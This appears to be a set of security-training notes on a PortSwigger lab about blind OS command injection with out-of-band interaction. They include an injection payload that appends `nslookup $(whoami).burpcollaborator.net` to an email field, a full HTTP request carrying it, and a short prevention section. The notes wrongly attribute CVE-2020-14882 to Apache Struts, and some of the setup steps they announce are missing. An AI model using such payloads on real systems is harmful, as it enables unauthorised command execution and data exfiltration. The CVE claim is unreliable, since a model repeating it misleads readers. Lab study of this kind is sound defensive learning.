


## Understanding Out-of-Band Interaction

### What is Out-of-Band Interaction?

Out-of-band interaction refers to techniques where an attacker uses a separate communication channel to exfiltrate data or perform actions that are not directly observable within the primary interaction. This is particularly useful in blind scenarios where direct feedback is not available.

### Why Use Out-of-Band Interaction?

In blind OS Command Injection attacks, the attacker cannot directly observe the results of their injected commands. By using out-of-band interaction, such as DNS queries or HTTP requests to a controlled server, the attacker can indirectly confirm the success of their commands and exfiltrate data.

### Real-World Example: CVE-2020-14882

CVE-2020-14882 is a blind OS Command Injection vulnerability in the Apache Struts framework. Attackers could inject commands that would result in DNS queries to a controlled server, allowing them to confirm the success of their attack and potentially exfiltrate data.

### Tools for Out-of-Band Interaction

Tools like Burp Collaborator are commonly used for out-of-band interaction. Burp Collaborator provides a server that listens for various types of requests, allowing attackers to confirm the success of their commands.

### Setting Up Burp Collaborator

To set up Burp Collaborator, follow these steps:

1. **Install Burp Suite Professional**: Download and install Burp Suite Professional from the official website.
2. **Start Burp Suite**: Launch Burp Suite and configure it to intercept traffic.
3. **Configure FoxyProxy**: Ensure FoxyProxy is configured to send requests through Burp Suite.
4. **Access the Lab**: Open the lab environment and navigate to the application.

Here is a step-by-step guide:



### Configuring Burp Suite

1. **Open Burp Suite**: Start Burp Suite Professional.
2. **Intercept Traffic**: Go to the Proxy tab and enable interception.
3. **Configure FoxyProxy**: Set FoxyProxy to route traffic through Burp Suite.
4. **Navigate to the Application**: Access the lab application and submit feedback.

Here is the configuration process in detail:



### Submitting Feedback

To submit feedback, fill out the form with the following details:

- **Email**: `test@test.com`
- **Subject**: `test`
- **Message**: `test`

Click on "Submit Feedback". You should see a response indicating that the feedback was submitted successfully.

### Identifying Vulnerable Fields

If you are unsure which field is vulnerable, test each parameter for command injection. For example, try injecting commands into the email field:

- **Email**: `test@test.com; whoami`
- **Subject**: `test`
- **Message**: `test`

Click on "Submit Feedback". If the application executes the `whoami` command, you have confirmed that the email field is vulnerable.

### Exploiting the Vulnerability

Once you have identified the vulnerable field, you can exploit it further. For example, you can use out-of-band interaction to confirm the success of your commands.

#### Example Payload

Inject a command that triggers an out-of-band interaction:

- **Email**: `test@test.com; nslookup $(whoami).burpcollaborator.net`
- **Subject**: `test`
- **Message**: `test`

Click on "Submit Feedback". Burp Collaborator will notify you if the DNS query is received, confirming the success of your command.

### Full HTTP Request and Response

Here is a complete example of the HTTP request and response:

```http
POST /submit-feedback HTTP/1.1
Host: vulnerable-app.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 57

email=test%40test.com%3B+nslookup+%24%28whoami%29.burpcollaborator.net&subject=test&message=test
```

Response:

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 34

Thank you for submitting the feedback.
```

### How to Prevent / Defend Against OS Command Injection

#### Secure Coding Practices

1. **Avoid Shell Commands**: Use built-in functions or libraries instead of shell commands.
2. **Input Validation**: Validate and sanitize all user inputs.
3. **Least Privilege Principle**: Run the application with minimal privileges.

#### Example: Secure Code vs Vulnerable Code

**Vulnerable Code**:

```php
<?php
$cmd = $_GET['cmd'];
exec($cmd);
?>
```

**Secure Code**:

```php
<?php
$cmd = filter_var($_GET['cmd'], FILTER_SANITIZE_STRING);
if (in_array($cmd, ['ls', 'pwd'])) {
    exec($cmd);
} else {
    echo "Invalid command";
}
?>
```

#### Configuration Hardening

1. **Disable Unnecessary Features**: Disable features that are not required.
2. **Use Security Headers**: Implement security headers like `Content-Security-Policy`.

#### Detection

1. **Static Analysis**: Use tools like SonarQube or Fortify to scan for vulnerabilities.
2. **Dynamic Analysis**: Use tools like Burp Suite or OWASP ZAP to test for vulnerabilities.

### Practice Labs

For hands-on practice, consider the following labs:

- **PortSwigger Web Security Academy**: Offers detailed labs on OS Command Injection.
- **OWASP Juice Shop**: Provides a vulnerable web application for testing.
- **DVWA**: A deliberately vulnerable web application for learning security concepts.

By thoroughly understanding and practicing the concepts covered here, you can effectively identify and mitigate OS Command Injection vulnerabilities in web applications.

---
<!-- nav -->
[[06-Out-of-Band Interaction|Out-of-Band Interaction]] | [[Web Security (PortSwigger)/10-OS Command Injection/05-Lab 4 Blind OS command injection with out of band interaction/00-Overview|Overview]] | [[Web Security (PortSwigger)/10-OS Command Injection/05-Lab 4 Blind OS command injection with out of band interaction/08-Practice Questions & Answers|Practice Questions & Answers]]
